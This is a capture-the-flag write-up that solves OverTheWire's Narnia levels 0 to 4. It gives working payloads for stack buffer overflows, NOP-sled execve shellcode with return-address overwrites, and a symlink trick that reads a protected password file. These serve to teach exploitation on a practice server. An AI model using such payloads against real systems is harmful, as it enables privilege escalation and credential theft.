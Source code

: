 # Binary Exploitation/Pwn challenges from OverTheWire

## Narnia0

We have a `char buf[20]` buffer, but the input is taken as `scanf("%24s",&buf);` and we know that the shell is only executed when the val is at **0xdeadbeef**.

We build the hex address: "\xef\xbe\xad\xde" and with `cat -` we hold the shell open:

```bash
(python -c 'print("A"*20+"\xef\xbe\xad\xde")'; cat -; ) | ./narnia0
```

## Narnia1

This time the code reads from the `env` the variable. We have to set EGG as a shellcode.
We can pick any shellcode from [here](https://www.exploit-db.com/shellcodes):  

```bash
export EGG=`python -c 'print "<shellcode>"'`

./narnia1
```

## Narnia2

The buffer is `char buf[128]` and the function we will exploit will be `strcpy(buf,argv[1]);`.
In order to see where is the range of address we can fall in using a **NOP-Sled**, first of all we have to fill the buffer with 128 "A", inside GDB.
Note the breakpoint at *strcpy*

```console
narnia2@narnia:~$ gdb narnia2
```

```bash
b strcpy
run $(python -c 'print 128 * "A" + "BBBB"+ "CCCC"') #where B is the $ebp and C is the ret address
x/700xw $esp #analyzing the stack to detect "AAAA" B(41414141)
```

With GDB we see that in the stack we have "CCCC" in the **return address** of strcpy, then here we will put our middle-address of the  **NOP-Sled**. Again, any [shellcode](https://www.exploit-db.com/shellcodes/47513) can be used if it is small enough to fit into the NOPs.

`shellcode="\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"`

`return address="\x4c\xd8\xff\xff"`

Number of NOPs = **128**(buff) - **25**(shellcode) + **4**($ebp) = 107

Let's run the program with:

```bash
./narnia2 $(python -c 'print 107 * "\x90" + "\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"+"\x4c\xd8\xff\xff"')
```

## Narnia3

In the stack are allocated `char ofile[16] = "/dev/null"` and `char ifile[32]` and there is also a `strcpy(ifile, argv[1])` that copies in ifile argv[1]. Looking at the stack we can see that the two buffers are one above the other, then writing to **ifile** (strcpy doesn't check the length) also **ofile** can be written.
You can analyze the stack using:

```console
narnia3@narnia:~$ gdb narnia3
```

`run AAAAAAAAAAAAAAAAAAAAAAAAAAA`

`b open@plt`

`x/700xw $esp`


argv[1] will be:
`/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/yourfile`

Now you can set up your files and folder in your filesystem:

**Copy this in /tmp/yourscript.sh**

```bash
#!/bin/bash

mkdir /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/

touch /tmp/yourfile

chmod 777 /tmp/yourfile

ln -s /etc/narnia_pass/narnia4 /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/yourfile

/narnia/narnia3 /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/yourfile

cat /tmp/yourfile
```

>The directory "AAAAAAAAAAAAAAAAAAAAAAAAAAA" could be already created due to the number of the players in the server. You can create your own 32-bytes long directory with any character you want.

## Narnia4

This challenge is similar to Narnia2, so also here we have a char </span> `buffer[256]` that we must overflow to overwrite the `strcpy(buffer,argv[1])` return address, but the main difference is that here there are also other buffer of strings to overwrite before we can change it.
  
First of all we must see when the program goes in segmentation fault: with some test using

  ```console
  narnia4@narnia:~$ ./narnia4 $(python -c "print('A'*$i)")
  ```

we understand that giving at $i the value of 264 it explodes so the EBD was overwritten.

Now we search the return address the we'll insert instead of that of strcpy (searching when the '\x41' are), we'll use gdb:

  ```console
  narnia4@narnia:~$ gdb narnia4
  ```

  `run $(python -c "print('A'*226)")`

  `b strcpy@plt`

  `x/700xw $esp`

We choose an address in the middle to use the NOP-Sled.

We'll use the same shellcode the we used in Narnia2:

  `shellcode="\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"`

Now we can prepare the argv[1] to pass to the program: 239 bytes of '\x90' + 25 bytes of shellcode and finally the 4 bytes of the return addess:

  ```bash
  ./narnia4 $(python -c "print('\x90'*239+'\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80'+'\x18\xd8\xff\xff')")
  ```
  
